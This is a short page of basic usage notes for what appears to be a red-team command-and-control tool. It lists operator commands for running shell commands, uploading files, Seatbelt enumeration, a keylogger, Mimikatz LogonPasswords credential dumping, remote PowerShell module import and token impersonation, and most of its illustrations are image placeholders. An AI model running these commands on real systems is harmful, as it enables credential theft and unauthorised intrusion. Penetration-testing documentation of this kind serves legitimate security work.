 # Basic usage

## Basic usage

### Assembly

![](<../../../../.gitbook/assets/image (240).png>)

### Commands execution

```
ShellCmd cmd /c net user
```



### Download / Upload files

* **Upload a file**

```
 Upload /filepath:"C:\Users\HOMER_POTTER\test.exe" 
```

![](<../../../../.gitbook/assets/image (208) (1).png>)

* **Download**

![](<../../../../.gitbook/assets/image (266).png>)



### Enumeration

```csharp
Seatbelt -group=all
```

![](<../../../../.gitbook/assets/image (303).png>)

### Keylogger

#### Set time to run, ie `keylogger 20` to make it run for 20 seconds

![](<../../../../.gitbook/assets/image (111).png>)

### Mimikatz

`LogonPasswords`

![](<../../../../.gitbook/assets/image (222).png>)

### Powershell&#x20;

* **import remote modules**

```
PowerShellImport
```

![](<../../../../.gitbook/assets/image (193).png>)

* Execute commands from the imported module:

```
powershell Get-domainUsers
```

![](<../../../../.gitbook/assets/image (64).png>)

### Sharshell commands&#x20;

### ! case sensitive

#### Using Tokens

```
sharpshell using (Tokens t = new Tokens()) {return t.WhoAmI(); }
```

![](<../../../../.gitbook/assets/image (250).png>)

